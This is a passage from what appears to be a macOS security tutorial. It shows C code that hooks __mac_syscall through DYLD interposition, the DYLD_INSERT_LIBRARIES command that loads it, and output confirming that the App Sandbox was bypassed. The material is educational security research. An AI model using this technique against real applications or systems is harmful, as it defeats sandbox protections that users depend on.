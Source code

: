 ```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```

#### Interpost `__mac_syscall` to prevent the Sandbox

{% code title="interpose.c" %}
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
    printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
    if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
        printf("Bypassing Sandbox initiation.\n");
        return 0; // pretend we did the job without actually calling __mac_syscall
    }
    // Call the original function for other cases
    return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
    const void *replacement;
    const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
    { (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```
{% endcode %}

```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```
